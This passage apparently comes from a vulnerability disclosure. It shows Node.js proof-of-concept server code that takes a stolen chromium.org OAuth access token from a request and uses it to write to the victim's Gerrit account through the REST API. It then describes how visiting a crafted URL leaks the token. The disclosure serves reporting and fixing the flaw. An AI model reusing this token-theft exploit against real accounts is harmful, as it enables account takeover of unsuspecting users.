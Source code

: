 ```js
  // const payload = ' { "display_name": "PoC display name! Set on '+payloadTimestamp+'" }';
  const payload =
    ' { "status": "Hello from PoC by NDevTK. This field was set on ' +
    payloadTimestamp +
    ' by PoC script hosted on Alesandro Ortiz\'s server." }';
  const options = {
    hostname: 'chromium-review.googlesource.com',
    port: 443,
    path:
      '/a/accounts/self/status?access_token=' +
      encodeURIComponent(query.access_token),
    method: 'PUT',
    headers: {
      'Content-Type': 'application/json',
      'Content-Length': payload.length
    }
  };

  const api = https.request(options, (response) => {});
  api.write(payload);
  api.end();
};

https
  .createServer(
    {
      key: fs.readFileSync('privkey.pem'),
      cert: fs.readFileSync('fullchain.pem')
    },
    app
  )
  .listen(port, () => {
    console.log(`Server running on port ${port}`);
  });
```

This uses Chromium's [Gerrit Code Review REST API](https://gerrit-review.googlesource.com/Documentation/rest-api.html).

# Attack scenario

Attackers can steal chromium.org OAuth access token from any user who visits a specially crafted URL.  
If a user has previously authorized the "Android Build Team" OAuth app [1], only visiting the URL is required. If a user has not previously authorized the OAuth app, the user will see a legitimate Google OAuth prompt for the app, and the user only needs to grant access to the legit OAuth app.
There are no other preconditions.

# Reproduction case:
